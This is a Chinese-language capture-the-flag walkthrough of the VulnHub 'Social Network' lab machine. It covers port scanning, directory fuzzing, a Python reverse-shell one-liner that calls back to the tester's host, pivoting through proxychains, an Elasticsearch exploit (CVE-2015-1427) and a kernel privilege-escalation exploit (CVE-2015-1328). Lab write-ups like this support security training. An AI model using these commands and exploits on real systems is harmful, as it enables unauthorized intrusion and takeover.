


> 天长地久。天地所以能长且久者，以其不自生，故能长生。

靶机：BoredHackerBlog: Social Network

<!-- more -->


靶机地址：https://www.vulnhub.com/entry/boredhackerblog-social-network,454/

建议使用VirtualBox搭建环境

**局域网二层扫描**

```
sudo arp-scan -l
```

1. 判断存活主机[Ladon](https://github.com/k8gege/LadonGo)

   ```
   sudo ./Ladon 192.168.0.101/24 IcmpScan
   ```

   

2. 端口扫描，确定ip

   ```
   nmap 192.168.0.104
   ```

3. 全端口扫描：

   ```
   nmap -p- 192.168.0.104
   ```

   ```
   Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-31 11:05 CST
   Nmap scan report for 192.168.0.104
   Host is up (0.0013s latency).
   Not shown: 65533 closed ports
   PORT     STATE SERVICE
   22/tcp   open  ssh
   5000/tcp open  upnp
   ```

    

4. 服务扫描

   ```
   nmap -p22,5000 -sV 192.168.0.104
   ```

   ```
   PORT     STATE SERVICE VERSION
   22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
   5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.15)
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
   ```

5. 目录扫描

   ```
   ffuf -w ~/wordlist/Web-Fuzzing-Box/Dir/Directories.txt -u http://192.168.0.104:5000FUZZ -mc all -v -fc 404
   ```

   http://192.168.0.104:5000/admin

6. python反弹shell

   ```
   import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.101",8081));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
   ```

7. 容器识别：

   ```
   ls /.dockerenv
   或者
   cat /proc/1/cgroup
   ```

8. 存活ip扫描

   ```
   for i in $(seq 1 10); do ping -c 1 172.17.0.$i; done
   ```

9. 代理建立

    

   

10. 代理扫描

    ```
    proxychains4 nmap -Pn -sT 172.17.0.1
    
    proxychains4 nmap -Pn -sT 172.17.0.2
    proxychains4 nmap -p9200 -Pn -sT -sV 172.17.0.2
    ```

11. 搜索Elasticsearch Exp

    ```
    searchsploit Elasticsearch
    ```

12. 复制payload

    ```
    cp /usr/share/exploitdb/exploits/linux/remote/36337.py ./
    ```

    

13. 漏洞利用CVE-2015-1427

14. 登录，尝试sudo权限：sudo -s

15. 搜索内核漏洞

    ```
    searchsploit linux 3.13
    
    CVE-2015-1328
    ```

16. 复制exp

    ```
    cp /usr/share/exploitdb/exploits/linux/local/37292.c ./
    ```

17. 修改exp

     

18. 搜索依赖so文件

    ```
    locate ofs-lib.so
    ```

19. 靶机下载so文件和exp

20. 移动到tmp目录

21. 执行exp

    ```
    chmod +x exp
    ./exp
    ```

    


